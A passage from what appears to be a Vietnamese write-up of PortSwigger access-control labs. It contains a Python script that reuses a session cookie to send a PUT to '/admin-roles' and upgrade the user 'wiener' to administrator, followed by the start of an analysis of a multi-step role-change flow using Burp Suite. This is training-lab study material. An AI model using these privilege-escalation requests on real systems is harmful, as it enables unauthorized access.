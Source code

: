 ```python=
response = session.post(
    url + '/login',
    data=data,
    verify=False,
    allow_redirects=False
)

session = response.headers['Set-Cookie'].split(';')[0].split('=')[1]


cookies = {
    'session': session
}

data = {
    "username":"wiener",
    "action":"upgrade"
}

response = requests.put(
    url + '/admin-roles',
    cookies=cookies,
    data=data,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/r1Fl6B6KT.png)

## 12. Multi-step process with no access control on one step

link: https://portswigger.net/web-security/access-control/lab-multi-step-process-with-no-access-control-on-one-step

### Phân tích

<li>Miêu tả lab đặt ra giả thuyết chúng ta đã có tài khoản với quyền quản trị là administrator:admin. Trang quản trị chứa một quá trình nhiều bước thực hiện thay đổi vai trò người dùng. Chúng ta có thể thu thập cách trang quản trị hoạt động bằng tài khoản administrator. Chúng ta còn được cung cấp một tài khoản hợp lệ wiener:peter, nhiệm vụ cần khai thác lỗ hổng kiểm soát truy cập để leo quyền tài khoản wiener lên quyền quản trị.</li>

<li>Đăng nhập với tài khoản administrator:admin, tại trang Admin panel chứa chức năng upgrade vai trò người dùng. Thực hiện upgrade vai trò người dùng carlos và quan sát lịch sử các request và response trong HTTP History trong Burp Suite.
